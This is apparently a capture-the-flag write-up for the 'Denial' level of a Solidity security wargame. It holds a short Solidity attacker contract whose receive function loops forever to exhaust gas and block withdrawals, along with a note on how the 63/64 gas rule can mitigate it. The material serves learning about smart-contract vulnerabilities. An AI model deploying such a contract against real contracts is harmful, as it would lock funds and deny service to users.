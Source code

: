 # Level 20 - Denial

- Infinite loop in receive function.
- *Note: An external `CALL` can use at most 63/64 of the gas currently available at the time of the `CALL`. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.*

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract DenialAttacker {

    receive() external payable {
        while (true) {
            
        }    
    }
}
```